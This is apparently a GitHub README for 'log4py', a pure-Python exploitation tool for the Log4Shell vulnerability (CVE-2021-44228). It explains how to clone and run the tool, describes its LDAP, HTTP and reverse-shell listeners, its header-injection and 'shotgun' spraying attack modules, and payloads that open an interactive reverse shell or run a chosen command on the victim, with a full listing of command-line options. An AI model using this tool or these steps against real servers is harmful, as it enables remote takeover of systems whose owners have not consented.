

# log4py
Pure python reverse shell for CVE-2021-44228 log4shell. Big thanks to [dotPY-hax/log4py](https://github.com/dotPY-hax/log4py) for the original pure python PoC and pre-compiled java bytecode.

## Features:
* Pure python, no java required!
* Built in LDAP, HTTP and ReverseShell listeners
* Easily custimizable command line arguments
* Different built-in attack modules:
	* Manual - Simply gives you the JNDI payload link for you to manually post to the target [default]
	* Header Attack - Specify URL, Method and Header to send the JNDI payload in
	* Shotgun - Specify URL and spray the JNDI header as many places as possible, hoping that one of them triggers loggin to log4j
* Different Payloads:
	* Pure Java Reverse Shell - Optionally specify shell to execute commands with. The log4py has built in interactive reverse shell listener! [default]
	* Execute Shell Command - Specify single command to execute on the target


# Usage:
Download repository:
```bash
git clone https://github.com/ItemizeNTNU/log4py
cd log4py
```
Then to run the exploit:
```bash
python3 main.py --ip <your callback ip>
```
Example output:


Then simply upload the JNDI string to the vulnerable log4j application.

The script starts 3 servers on your machine with default ports:
* LDAP server on port 49501
* HTTP server on port 49502
* Reverse Shell server on port 49503

# Options
Use `python3 main.py --help` for help on different options:
```java
usage: main.py [-h] [--ip IP] [--ldap-port {1..65535}] [--http-port {1..65535}] [--attack {ManualAttack,HTTPHeaderAttack,HTTPShotgunAttack}] [--payload {ReverseShell,ShellCommand}] [--once]
               [--specific-listener] [--list-attacks] [--list-payloads] [--attack-http-header-method {GET, POST, OPTIONS, ...}] [--attack-http-header-header HEADER_NAME]
               [--payload-reverse-shell-port {1..65535}] [--payload-reverse-shell-shell SHELL] [--payload-shell-command-cmd CMD]

Pure python Log4Shell Exploiter

optional arguments:
  -h, --help                                                  show this help message and exit
  --ip IP                                                     Callback ip that the victim server can reach you at (default: auto)
  --ldap-port {1..65535}                                      Port to listen at for the LDAP server (default: 49501)
  --http-port {1..65535}                                      Port to listen at for the HTTP server (default: 49502)
  --attack {ManualAttack,HTTPHeaderAttack,HTTPShotgunAttack}  Callback ip that the victim server can reach you at (default: ManualAttack)
  --payload {ReverseShell,ShellCommand}                       Java payload class to send (default: ReverseShell)
  --once                                                      If true, listeners will only listen for one connection then close (default: False)
  --specific-listener                                         If true, only listen on the specific --ip, else listen on 0.0.0.0 (default: False)
  --list-attacks                                              List all available attacks (default: False)
  --list-payloads                                             List all available payloads (default: False)
  --attack-http-header-method {GET, POST, OPTIONS, ...}       HTTP method to use for the HTTPHeaderAttack (default: GET)
  --attack-http-header-header HEADER_NAME                     Header to inject the JNDI payload to (default: None)
  --payload-reverse-shell-port {1..65535}                     Port to listen at for the reverse shell payload (default: 49503)
  --payload-reverse-shell-shell SHELL                         Shell to execute interactive commands with (default: /bin/sh)
  --payload-shell-command-cmd CMD                             Command to execute on the victim (default: None)
```

# Todo:
* More custimizable java payloads, possible optional integration with javac for auto compilation